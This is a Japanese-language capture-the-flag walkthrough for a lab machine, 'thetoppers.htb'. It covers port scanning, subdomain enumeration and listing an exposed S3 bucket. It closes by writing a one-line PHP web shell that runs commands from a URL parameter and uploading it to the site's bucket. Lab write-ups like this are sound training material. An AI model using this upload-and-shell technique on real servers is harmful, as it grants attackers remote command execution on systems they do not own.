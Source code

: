 # Tree

## 手順

nmap ポートスキャン

```bash
└──╼ $nmap -p- --min-rate 10000 10.129.23.134
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-31 00:43 JST
Nmap scan report for thetoppers.htb (10.129.23.134)
Host is up (0.29s latency).
Not shown: 65465 filtered tcp ports (no-response), 68 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 38.71 seconds
```

ウェブページに飛ぶとemailのドメインが表示されている

そのドメインを``/etc/hosts``にIPアドレスのペアを記載する

サブドメインを探す

``gobuster``

```bash
└──╼ $gobuster vhost --append-domain -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://thetoppers.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb Status: 404 [Size: 21]
```

wfuzzやffufというツールでもサブドメインを探すファジングができる

見つけたサブドメイン``s3.thetoppers.htb``とIPアドレスのペアを``/etc/hosts``に追加する

ドメインの先頭がs3であることからamazon s3を使っていることがわかる

amazon s3にフォルダがおいてあるのでaws cliを使ってフォルダを表示してみる

その前にaws configureを実行する

```bash
└──╼ $aws configure
AWS Access Key ID [None]: temp
AWS Secret Access Key [None]: temp
Default region name [None]: temp
Default output format [None]: temp
```

s3内のフォルダリスト表示 多分ルート？

```bash
└──╼ $aws --endpoint=http://<ドメイン名> s3 ls
2024-07-31 00:30:50 thetoppers.htb
```

thetoppers.htbフォルダの中のリスト表示

```bash
└──╼ $aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2024-07-31 00:30:50          0 .htaccess
2024-07-31 00:30:50      11952 index.php
```

上記がWebページに表示しているフォルダが入っていることがわかる

OSコマンドを実行できるようなphpファイルを用意し、s3にアップロードする

```bash
└──╼ $echo '<?php system($_GET["cmd"]); ?>' > shell.php

└──╼ $aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
upload: ./shell.php to s3://thetoppers.htb/shell.php     
```

これで自由にコマンドを使うことができるようになった